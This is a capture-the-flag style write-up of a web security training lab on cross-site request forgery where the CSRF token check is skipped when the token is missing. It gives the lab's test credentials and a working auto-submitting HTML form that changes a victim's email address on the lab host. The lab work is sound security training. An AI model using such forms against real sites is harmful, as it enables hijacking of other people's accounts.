 # Lab.3: CSRF where token validation depends on token being present

## Challenge

 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

## Solution

I logged in via `wiener` account and changed the email address.

I sent this `POST` request to the Burp Repeater, and tried to change the email, by modifying the `csrf` token, which gave me a `400 Bad Request`. 

I completely removed the csrf, and it worked, changing my address.

```html
<form action="https://0a1300fc0303313080edb7df00370075.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned334&commat;vatrasec22&period;net" />
</form>
<script>
    document.forms[0].submit();
</script>
```

